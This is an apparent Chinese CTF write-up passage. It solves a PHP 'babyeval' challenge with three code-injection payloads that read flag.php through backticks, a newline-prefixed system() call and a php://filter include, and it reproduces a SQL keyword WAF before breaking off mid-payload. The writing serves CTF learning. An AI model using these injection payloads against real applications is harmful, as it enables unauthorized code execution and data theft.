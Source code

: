 ![](/bmth_blog/images/pasted-172.png)
具体可参考：
[5位可控字符下的任意命令执行-----另一种解题方法](https://blog.csdn.net/nzjdsds/article/details/102940762)
[4位可控字符下的任意命令执行](https://blog.csdn.net/nzjdsds/article/details/102873203)

## babyeval
发现师傅们姿势很多呀，学一学
```php
<?php
    // flag在flag.php
    if(isset($_GET['a'])){
        if(preg_match('/\(.*\)/', $_GET['a']))
            die('hacker!!!');
        ob_start(function($data){
                 if (strpos($data, 'flag') !== false)
                 return 'ByeBye hacker';
                 return false;
                 });
        eval($_GET['a']);
    } else {
        highlight_file(__FILE__);
    }
    ?>
```
>不能利用带有括号的函数→利用echo输出内容。
输出内容中不能有flag→利用编码绕过

方法一：
```php
?a=echo `base64 flag.php`;
```
方法二：
`%0a`绕过，这个nb
```php
?a=system('%0Acat f* | base64');
```
方法三：
利用include函数加php伪协议
```php
?a=include 'php://filter/convert.base64-encode/resource=./flag.php';
```

## checkin-sql
过滤代码如下:
```php
function waf1($id){
        if(preg_match("/select|update|rename|delete|drop|use|updatexml|if|sleep|alter|handler|insert|where|load_file|\./i",$id))
        {
                die("0xDktb said You are a hacker!");
        }
}
function waf2($id){
        if(preg_match("/set/i",$id) && preg_match("/prepare/i",$id))
        {
                die("0xDktb says You are a hacker£¡");
        }
}
```
发现 set 和 prepare 同时出现时会被过滤，而单独出现则不会过滤
这里师傅的payload，tttttttql：
```php
<?php
$a = "1';
```